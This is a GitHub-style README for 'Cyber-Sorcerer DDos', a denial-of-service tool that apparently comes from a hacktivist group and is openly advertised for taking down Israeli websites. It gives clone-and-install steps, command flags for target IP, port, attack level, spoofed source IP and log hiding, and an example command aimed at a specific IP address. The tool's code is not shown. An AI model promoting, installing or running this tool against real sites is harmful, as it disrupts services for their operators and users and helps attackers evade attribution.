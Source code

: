 # Cyber-Sorcerer DDos

[Telegram Channel](https://t.me/teamblackfalcon)

## 
[My Telegram Account](https://t.me/Not_found_404_not_responding)


A powerful DDos tool to make down Israeli websites. This tool Owner CYBER SORCERER 



## installing

- 1 . <code> pkg install python </code>
- 2 . <code> git clone https://github.com/teamblackfalcon/C-SDDos.git </code>
- 3 . <code> cd C-SDDos </code>
- 4 . <code> pip install -r installing.txt </code>
- 5 . <code> python C-SDdos.py -h  </code>




### Command information:
    To use
$ <code>python C-SDdos.py [-i] [-p] [-l]    </code>     

│         -h : For help                          
│         -i : Server IP                        
│         -p : IP                   
│         -l : Atatck Level              
│         -f : Fake IP                            
│         -d : Hide Logs                       
                     usage:
<code> python C-SDdos.py -i 92.204.214.136 -p 80 -l  2 </code>


Hope you like this tool.
